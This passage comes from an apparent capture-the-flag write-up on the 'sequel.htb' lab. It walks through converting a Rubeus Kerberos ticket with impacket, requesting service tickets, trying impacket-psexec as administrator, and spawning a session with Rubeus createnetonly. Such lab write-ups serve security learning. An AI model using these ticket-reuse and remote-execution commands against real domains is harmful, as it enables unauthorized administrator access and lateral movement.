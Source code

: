 ![image.png](image%2031.png)

But again I cannot access `C$` share.
```powershell
dir \\dc.sequel.htb\C$
```
**>> Linux**

I used `/outfile` option of Rubeus and saved kirbi ticket in a file, then transferred over Linux machine and converted to `.ccache` file using impactet-ticketConverter

```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
```

Then I set `KRB5CCNAME` environment variable to that ccache file:

```bash
export KRB5CCNAME=$PWD/ticket.ccache
```

Then I tried requesting TGS for HOST SPN from Linux:

<aside>
💡

We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility.

</aside>

```bash
kvno HOST/dc.sequel.htb
```

But for some reason this didn’t work, then I decided to make a ready TGS ticket in Windows and transfer that TGS ticket already in ready format to Linux, I did that and after that I tried authenticating with psexec:

```bash
impacket-psexec -k -dc-ip $IP SEQUEL.HTB/administrator@dc.sequel.htb
```

![image.png](image%2032.png)

This also didn’t work.

**Possible reasons of a problem:**

- **UAC Restrictions**: UAC might be filtering your Administrator token, reducing your privileges for remote SMB access.
    
    I tried spawning a new cmd where network authentication will be handled with my Kerberos ticket. This will authenticate as administrator@SEQUEL.HTB using the TGT, potentially bypassing issues like UAC filtering that might affect your main session. Additionally, the new session isolates network authentication, which can be useful for testing or avoiding conflicts with other processes.
    
    ```powershell
    Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
    ```
    